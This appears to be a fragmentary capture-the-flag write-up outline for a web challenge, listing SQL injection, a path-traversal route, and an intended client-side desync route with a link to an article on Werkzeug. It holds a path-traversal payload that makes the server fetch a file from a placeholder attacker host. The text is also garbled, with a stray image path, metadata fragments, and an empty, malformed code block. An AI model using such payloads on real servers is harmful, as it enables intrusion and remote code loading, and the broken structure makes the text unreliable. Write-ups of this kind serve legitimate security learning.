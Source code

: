 1. SQL injection

```

2. Report Path traversal

```
{"id":"../go?to=/api/ipc_download?file=http://attacker/app.py"}
```

3. Intended route
[Client side desync](https://mizu.re/post/abusing-client-side-desync-on-werkzeug)